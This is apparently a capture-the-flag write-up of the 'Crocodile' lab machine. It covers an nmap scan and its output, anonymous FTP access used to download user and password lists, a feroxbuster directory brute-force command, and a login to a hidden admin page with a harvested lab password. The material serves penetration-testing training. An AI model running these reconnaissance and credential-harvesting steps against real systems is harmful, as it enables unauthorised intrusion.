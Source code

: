 # Crocodile


## Nmap
    nmap -sC (target IP) -T5

21/tcp open  ftp     vsftpd 3.0.3

| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd

| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.15.135
|      Logged in as ftp
|      TYPE: ASCII

 No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable

|_End of status

80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

### Ports

21/tcp ftp (Code 230)

80/tcp http

## Connect to FTP
    ftp (target ip)

    username:anonymous

    used "dir" command to find the userlist and passwords

    used the "get" command to to download the files

    used the "cat" command in the downloaded dir to view the files

![alt text](image-7.png)

![alt text](image-6.png)

#### Connects to 230


## Find Hidden Pages

    feroxbuster -u "target IP" --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --no-recursion -t 100


## Connect to Hidden Page of Server

http://10.129.96.171/login.php

![alt text](image-8.png)

## Used Creditials Found on Userlists

    Username:admin
    Password:rKXM59ESxesUFHAd


